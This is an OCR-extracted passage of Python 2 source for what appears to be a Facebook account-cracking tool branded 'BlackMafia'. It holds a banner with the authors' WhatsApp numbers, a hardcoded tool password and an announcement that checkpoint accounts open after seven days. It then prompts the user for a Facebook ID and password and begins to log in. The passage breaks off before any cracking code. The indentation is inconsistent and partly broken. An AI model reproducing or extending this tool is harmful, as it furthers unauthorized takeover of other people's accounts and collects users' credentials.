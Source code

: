 os.system("clear")
print  """
  \033[1;96m          ▒▒▒▒▒▒▒▒▒▒▒▒  ╱▔▔▔▔╲ ▒▒▒▒▒▒▒▒▒▒▒▒ 
  \033[1;96m          ▒▒▒▒▒▒▒▒▒▒▒▒ ▕▕╲┊┊╱▏▏▒▒▒▒▒▒▒▒▒▒▒▒ 
  \033[1;96m          ▒▒▒▒▒▒▒▒▒▒▒▒ ▕▕▂╱╲▂▏▏▒▒▒▒▒▒▒▒▒▒▒▒ 
 \033[1;96m           ▒▒▒▒▒▒▒▒▒▒▒▒  ╲┊┊┊┊╱ ▒▒▒▒▒▒▒▒▒▒▒▒ 
 \033[1;96m           ▒▒▒▒▒▒▒▒▒▒▒▒  ▕╲▂▂╱▏ ▒▒▒▒▒▒▒▒▒▒▒▒
 \033[1;96m           ▒▒▒▒▒▒▒▒▒ ╱▔▔▔▔┊┊┊┊▔▔▔▔╲▒▒▒▒▒▒▒▒▒
  \033[1;96m          ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒ 
       \033[1;93m  ███████▒▒Welcome To Asad Malik▒▒████████
\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mBlackMafia\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒
\033[1;94mAuthor    \033[1;91m: \033[1;91mlovehacker
\033[1;94mBlackMafia\033[1;91m: \033[1;91▒▓██████████████]99.9
\033[1;94mFacebook  \033[1;91m: \033[1;91mAsif Javed
\033[1;94mWhatsapp  \033[1;91m: \033[1;91m+923094161457
\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mBlackMafia\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"""
jalan('\033[1;92m   .........................BlackMafia.........................:')
jalan("\033[1;93m   ▒▒▒▒▒▒▒▒▒▒▒▒ Welcome to Asad Malik ▒▒▒▒▒▒▒▒▒▒   ")
jalan('\033[1;93m ☞ ┈┈┈┈┈┈┈┈┈┈┈┈Login New Acount┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈  ')
jalan('\033[1;93m ☞ ┈┈┈┈┈┈┈ CP Acount Open After 7 Days ┈┈┈┈┈┈┈┈┈┈┈┈  ')
jalan("\033[1;93m ☞ ┈┈Any Problem U Can Contact This WhatsApp Number┈ ")
jalan("\033[1;93m ☞ ┈┈┈┈┈┈┈┈┈┈┈┈+923409453921┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈")
print "\033[1;95m   ▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒\033[1;96mLogin AsadMalik\033[1;95m▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒"

CorrectUsername = "Corona"
CorrectPassword = "lovehacker"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;94m▒▒▒▒📋 \x1b[1;91mTool Username \x1b[1;91m»» \x1b[1;93m")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;94m▒▒▒▒🔑\x1b[1;91mTool Password \x1b[1;91m»» \x1b[1;92m")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username #Dev:love_hacker
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;91mWrong Password"
            os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')

def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		jalan(' \033[1;92m     Notice:☞ \033[1;93mStay Home Stay Safe Save lives Save Pakistan' )
                jalan(' \033[1;92m     Notice:☞ \033[1;97mPray NAMAZ five time Daily' )
                jalan(' \033[1;92m     Notice:☞ \033[1;97mwear mask on your mouth every time ' )
                jalan(' \033[1;92m     Notice:☞ \033[1;97mDont go to in markets ' )
		jalan(' \033[1;92m     Notice:☞ \033[1;97mwash your hands every 1 hour' )
		print "\033[1;95m      ▒▒▒▒▒▒▒▒▒▒▒▒•◈•\033[1;96mAsadMalik\033[1;95m•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
		print('\033[1;93m▒▒▒▒▒▒▒▒▒▒▒▒LOGIN WITH FACEBOOK▒▒▒▒▒▒▒▒▒▒▒▒' )
		print('	' )
		id = raw_input('\033[1;96m[+] \x1b[1;92mID/Email\x1b[1;95m: \x1b[1;96m')
		pwd = raw_input('\033[1;96m[+] \x1b[1;93mPassword\x1b[1;96m: \x1b[1;96m')
		tik()
		try:
			br.open('https://m.facebook.com')